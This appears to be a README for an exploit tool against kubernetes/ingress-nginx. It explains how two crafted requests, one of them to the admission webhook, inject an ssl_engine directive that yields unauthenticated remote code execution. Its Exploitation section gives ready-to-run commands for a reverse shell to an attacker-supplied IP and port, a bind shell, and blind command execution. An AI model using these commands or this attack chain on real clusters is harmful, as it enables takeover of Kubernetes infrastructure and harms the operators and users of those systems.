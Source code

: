 # Ingress Nightmare CVE-2025-1907

## Description

This vulnerability allows remote attackers to execute arbitrary 
code on affected installations of kubernetes/ingress-nginx.
Authentication is not required to exploit this vulnerability.
The specific flaw exists within the handling of HTTP requests.

It is triggered by sending two request. One is a long buffered 
request to the NGINX server in same pod, then nginx will cache
it as a temporary file. The second request is a request to the
admission validating webhook server, which will trigger the 
admission webhook to write a temporary nginx config which contains
the `ssl_engine badso_location;` directive. Then the admission 
webhook will run `nginx -t` to check the config, which will 
triggered remote code execution in the context of the NGINX server.

## Exploitation

```bash
# reverse shell 
./ingressnightmare -m r -r ${ur_ip} -p ${port} -i ${INGRESS} -u ${UPLOADER} 

# bind shell # maybe lost?
./ingressnightmare -m b -b ${port} -i ${INGRESS} -u ${UPLOADER} 

# blind command execution
./ingressnightmare -m c  -c 'date >> /tmp/pwn; echo eson pwn >> /tmp/pwn' -i ${INGRESS} -u ${UPLOADER} 
```




